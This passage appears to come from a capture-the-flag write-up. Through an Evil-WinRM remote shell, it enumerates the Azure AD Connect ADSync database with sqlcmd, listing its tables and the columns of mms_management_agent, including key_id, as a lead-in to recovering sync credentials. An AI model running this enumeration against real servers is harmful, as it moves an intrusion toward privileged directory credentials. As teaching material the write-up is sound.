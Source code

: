 ```bash
msdb                                                                                                                                                                                          
ADSync                                                                                                                                                                                        
                                                                                                                                                                                              
(5 rows affected)       
```

ADSync is our database.

# Tables
```powershell
*Evil-WinRM* PS C:\Program Files> sqlcmd -Q 'SELECT TABLE_NAME FROM ADSync.INFORMATION_SCHEMA.TABLES'
TABLE_NAME
--------------------------------------------------------------------------------------------------------------------------------
mms_metaverse
mms_metaverse_lineageguid
mms_metaverse_lineagedate
mms_connectorspace
mms_cs_object_log
mms_cs_link
mms_management_agent
mms_synchronization_rule
mms_csmv_link
mms_metaverse_multivalue
mms_mv_link
mms_partition
mms_watermark_history
mms_run_history
mms_run_profile
mms_server_configuration
mms_step_history
mms_step_object_details
```

# mms_management_agent columns
```powershell
*Evil-WinRM* PS C:\Program Files> sqlcmd -Q "use ADSync;SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('mms_management_agent')"
Changed database context to 'ADSync'.
name
--------------------------------------------------------------------------------------------------------------------------------
ma_id
ma_name
ma_type
subtype
ma_listname
company_name
version_number
internal_version_number
creation_date
modification_date
capabilities_mask
ma_export_type
current_run_number
key_id
ma_description
ui_settings_xml
ma_extension_xml
```